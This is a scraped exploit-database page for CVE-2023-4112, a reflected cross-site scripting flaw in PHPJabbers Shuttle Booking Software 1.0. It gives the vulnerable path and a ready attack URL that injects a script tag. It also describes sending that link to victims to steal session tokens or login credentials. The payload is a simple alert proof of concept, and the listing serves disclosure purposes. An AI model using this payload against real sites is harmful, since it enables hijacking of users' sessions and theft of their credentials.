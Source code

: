 ```yaml
---
title: PHPJabbers Shuttle Booking Software 1.0 - Reflected XSS exploit
url: https://sploitus.com/exploit?id=EDB-ID:51648&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-05
fetch_date: 2025-10-04T11:58:41.084450
---
```


# PHPJabbers Shuttle Booking Software 1.0 - Reflected XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for PHPJabbers Shuttle Booking Software 1.0 - Reflected XSS CVE-2023-4112

2023-08-04 | CVSS 6.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51648
# Exploit Title: PHPJabbers Shuttle Booking Software 1.0 - Reflected XSS
# Exploit Author: CraCkEr
# Date: 20/07/2023
# Vendor: PHPJabbers
# Vendor Homepage: https://www.phpjabbers.com/
# Software Link: https://www.phpjabbers.com/shuttle-booking-software/
# Version: 1.0
# Tested on: Windows 10 Pro
# Impact: Manipulate the content of the site
# CVE: CVE-2023-4112

## Description

The attacker can send to victim a link containing a malicious URL in an email or instant message
can perform a wide variety of actions, such as stealing the victim's session token or login credentials

Path: /index.php

URL parameter is vulnerable to RXSS

https://website/index.php/gm5rj"><script>alert(1)</script>bwude?controller=pjAdmin&action=pjActionLogin&err=1
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
